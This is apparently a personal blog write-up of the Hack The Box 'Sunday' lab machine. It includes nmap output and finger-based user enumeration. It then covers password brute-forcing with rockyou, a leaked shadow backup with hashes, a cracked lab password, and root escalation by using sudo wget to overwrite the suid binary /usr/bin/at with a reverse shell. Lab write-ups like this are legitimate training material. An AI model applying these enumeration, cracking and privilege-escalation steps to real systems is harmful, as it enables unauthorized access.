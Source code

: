 Title: HTB Sunday box writeup
Tags: oscp, htb
Summary: Struggling with extra-laggy and ancient environment
Date: 2020-10-16 00:15
Status: published

# Enumeration
This box is pretty slow so I had to set `--max-retries` to 1 to accomplish usual
nmap scan:
<pre>
    Nmap 7.80 scan initiated Thu Oct 15 14:19:09 2020 as: nmap -sS -p- --max-retries=1 -oA enum/nmap-ss-all -v 10.10.10.76
    Increasing send delay for 10.10.10.76 from 0 to 5 due to 17 out of 56 dropped probes since last increase.
    Warning: 10.10.10.76 giving up on port because retransmission cap hit (1).
    Nmap scan report for sunday.htb (10.10.10.76)
    Host is up (0.055s latency).
    Not shown: 34485 filtered ports, 31045 closed ports
    PORT      STATE SERVICE
    79/tcp    open  finger
    111/tcp   open  rpcbind
    22022/tcp open  unknown
    40447/tcp open  unknown
    49886/tcp open  unknown
    Read data files from: /usr/bin/../share/nmap
    Nmap done at Thu Oct 15 14:33:02 2020 -- 1 IP address (1 host up) scanned in 832.69 seconds
</pre>
Took more than ten minutes! Yikes. Detailed:
<pre>
    Nmap 7.80 scan initiated Thu Oct 15 15:56:48 2020 as: nmap -sC -sV -A -T4 -p79,111,22022,40447,49886 -oA enum/nmap-sCVAT4-open 10.10.10.76
    Nmap scan report for sunday.htb (10.10.10.76)
    Host is up (0.056s latency).
    PORT      STATE SERVICE VERSION
    79/tcp    open  finger?
    |_finger: ERROR: Script execution failed (use -d to debug)
    | fingerprint-strings: 
    |   GenericLines: 
    |_    No one logged on
    111/tcp   open  rpcbind
    22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
    |_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
    40447/tcp open  unknown
    49886/tcp open  unknown
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port79-TCP:V=7.80%I=7%D=10/15%Time=5F884717%P=x86_64-pc-linux-gnu%r(Gen
    SF:ericLines,12,"No\x20one\x20logged\x20on\r\n");
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Sun OpenSolaris 2008.11 (94%), Sun Solaris 10 (94%), Sun Solaris 9 or 10, or OpenSolaris 2009.06 snv_111b (94%), Sun Solaris 9 or 10 (SPARC) (92%), Sun Storage 7210 NAS device (92%), Sun Solaris 9 or 10 (92%), Oracle Solaris 11 (91%), Sun Solaris 8 (90%), Sun Solaris 9 (89%), Sun Solaris 8 (SPARC) (89%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    TRACEROUTE (using port 111/tcp)
    HOP RTT      ADDRESS
    1   55.44 ms 10.10.14.1
    2   56.18 ms sunday.htb (10.10.10.76)
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Thu Oct 15 15:57:27 2020 -- 1 IP address (1 host up) scanned in 39.71 seconds
</pre>
Well well there's SSH listening on unusual port and a finger daemon that
potentially allows to enumerate local users. I nc'd to high ports and it looks
like there's nothing useful in there. `rpcinfo` revealed nothing. Let's
enumerate finger. I was already a bit familiar with finger protocol in general
so just tried some manual enum first like `finger @10.10.10.76`. Turned out
there's no one logged on machine at the time. `finger user@10.10.10.76`
revealed a couple of standard users and suggested that the box is running 
`SunOS 4.x`. I grabbed fingerd enumeration
[script](https://github.com/pentestmonkey/finger-user-enum) from pentestermonkey
and combined with usernames list from notorious SecLists repository it provided
me with some interesting results:
<pre>
    root@10.10.10.76:	    root	Super-User	pts/3		sunday	
    access@10.10.10.76:	    access	No	Access	User	
    sammy@10.10.10.76:	    sammy	console	
    sunny@10.10.10.76:	    sunny	pts/3		10.10.14.4	
    network@10.10.10.76:	Login	Name	TTY	Idle	When	Wherelisten	Network	Admin	
    Admin@10.10.10.76:	    Admin
    films+pic+galeries@10.10.10.76:	Login	Name	TTY	Idle	When	Wherefilms+pic+galeries	???
    printer@10.10.10.76:	Login	Name	TTY	Idle	When	Wherelp	Line	Printer	Admin	
    daemon@10.10.10.76:	    daemon	???	
    Sammy@10.10.10.76:	    Login	Name	TTY	Idle	When	Wheresammy	sammy	console	
    line@10.10.10.76:	    Login	Name	TTY	Idle	When	Wherelp	Line	Printer	Admin	
    anonymous@10.10.10.76:	Login	Name	TTY	Idle	When	Wherenobody	NFS	Anonymous	Access	
</pre>
Results were a bit clumsy so I changed them a bit by hand. Notice two
interesting names there - `sammy` and `sunny`, looks like regular users. I also
checked them out manually using `finger` command to ensure there's no glitches.

# Exploitation
There aren't much exploitable services running on this box so I tried to
bruteforce passwords and after a while sunny's password was revealed in rockyou:

![sunny pwd](/cstatic/htb-sunday/sunny-password.png)

Sunny could run `/root/troll` via sudo, but it doesn't look exploitable at a
glance, he's even not able to stat that file and read perms. 
Also sunny has access to unusual `/backup` dir with a file that claimed to be
backup of `/etc/shadow`:
<pre>
sunny@sunday:~$ cat /backup/shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
</pre>
Sammy's password found in rockyou and it is `cooldude!`:

![sammy pwd](/cstatic/htb-sunday/sammy-cracked.png)

This allows to SSH to the host and acquire user flag:

![sammy shell](/cstatic/htb-sunday/user-shell.png)

# Privilege escalation
Turned out sammy could run `wget` as root via sudo. This allows us to replace
arbitrary suid executable with our own using the `-O` option. So I just
downloaded my reverse shell over the `/usr/bin/at` and got a root session:

![root shell](/cstatic/htb-sunday/root-shell.png)

I didn't bother upgrading to interactive shell because the box was damn laggy 
and drived me nuts with constant freezes and glitches.

